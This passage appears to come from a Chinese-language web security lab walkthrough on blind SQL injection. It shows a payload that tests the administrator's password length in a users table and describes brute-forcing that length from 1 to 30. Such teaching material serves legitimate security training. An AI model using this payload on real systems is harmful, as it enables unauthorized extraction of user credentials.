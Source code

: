 ### 2.12.5. **判断密码长度**

```
payload：' and (select 'cs' from users where username='administrator' and Length(password)>1)='cs'--
```

经过测试1是成立的，而我们需要判断密码是多少位。

![img](assets/%E5%9B%BE%E7%89%87%2048.png) 

#### 2.12.5.1. **设置爆破密码长度**

选中其中的1，然后设置1到30即可，当然也可以设置更长。

![img](assets/%E5%9B%BE%E7%89%87%2049.png) 
